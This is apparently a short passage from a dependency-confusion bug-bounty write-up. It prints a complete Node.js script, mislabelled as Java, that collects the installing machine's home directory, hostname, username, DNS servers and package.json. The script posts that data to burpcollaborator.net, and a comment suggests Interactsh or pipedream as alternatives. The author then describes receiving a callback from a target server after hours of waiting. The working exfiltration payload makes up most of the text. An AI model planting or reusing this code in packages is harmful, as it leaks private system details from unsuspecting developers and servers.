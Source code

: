 ```java
//author:- mypackage@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "burpcollaborator.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```

In this malicious code above I put my burp collaborater in order to receive the callback if the code is being executed on the server. I waited, waited and waited. Callback hasn't came until 5 hours. I decided to wait 1 more hour and then just shutdown my whole plan. After around 33 minutes , I recieved a callback to my burp collaborater.
